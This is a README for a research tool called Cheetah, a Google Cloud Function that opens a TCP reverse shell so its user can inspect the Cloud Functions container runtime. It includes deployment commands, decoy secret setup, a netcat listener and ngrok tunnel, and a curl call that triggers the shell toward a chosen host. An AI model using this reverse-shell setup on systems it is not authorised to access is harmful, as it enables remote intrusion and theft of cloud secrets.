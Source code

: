 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

```bash
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=XXXXXXXXX-compute@developer.gserviceaccount.com
```

## Deploying Assets

Create some secrets and grant permissions to the SA. Side note: wow, they really don't want you passing these values via the command line. Makes sense for real secrets though.

```
echo "cheetah_user" | gcloud beta secrets create cheetah-database-user --data-file=- --replication-policy=automatic

echo "TmV2ZXIgcGxheSBwb2tlciB3aXRoIHRoZSB3b3JsZCdzIGZhc3Rlc3QgYW5pbWFsLCBiZWNhdXNlIGhlJ3MgYSBjaGVldGFoLiAtIGNvb2xmdW5ueXF1b3Rlcy5jb20g" | gcloud beta secrets create cheetah-database-pass --data-file=- --replication-policy=automatic

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl 'https://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
